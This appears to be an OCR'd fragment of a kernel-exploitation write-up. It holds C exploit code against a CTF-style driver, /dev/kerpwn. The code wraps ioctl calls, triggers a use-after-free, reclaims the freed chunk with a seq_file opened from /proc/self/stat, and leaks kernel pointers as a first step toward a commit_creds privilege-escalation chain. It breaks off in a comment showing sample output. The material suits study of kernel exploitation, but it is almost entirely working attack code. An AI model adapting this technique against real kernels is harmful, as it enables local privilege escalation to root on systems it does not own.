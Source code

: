```assembly
}


void writeChunk(size_t idx, size_t size, void *buf){
    OP_CHUNK op = 
    {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x50, &op);
}


void deleteChunk(size_t idx){
    OP_CHUNK op = 
    {
        .idx = idx,
    };
    ioctl(dev_fd, 0x30, &op);
}


void allocChunk(size_t size, void *buf){
    ALLOC_CHUNK alloc = 
    {
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x20, &alloc);
}


size_t  buf[0x100];
long    seq_fd;
size_t init_cred;
size_t pop_rdi_ret;
size_t commit_creds;
size_t swapgs_restore_regs_and_return_to_usermode;


int main(int argc, char ** argv, char ** envp){

    dev_fd = open("/dev/kerpwn", O_RDWR);
    if(dev_fd < 0){
        puts("[*]open /dev/kerpwn error!");
    }

    allocChunk(0x20, buf);
    deleteChunk(0);  // UAF
    seq_fd = open("/proc/self/stat", O_RDONLY);
    readChunk(0, 0x20, buf);

    printf("%x\n", buf[0]);
    // printf("%x\n", buf[1]);
    // printf("%x\n", buf[2]);
    // printf("%x\n", buf[3]);

    /*
        / # ./exp
        bc719d30
        bc719d70
        bc719d50
```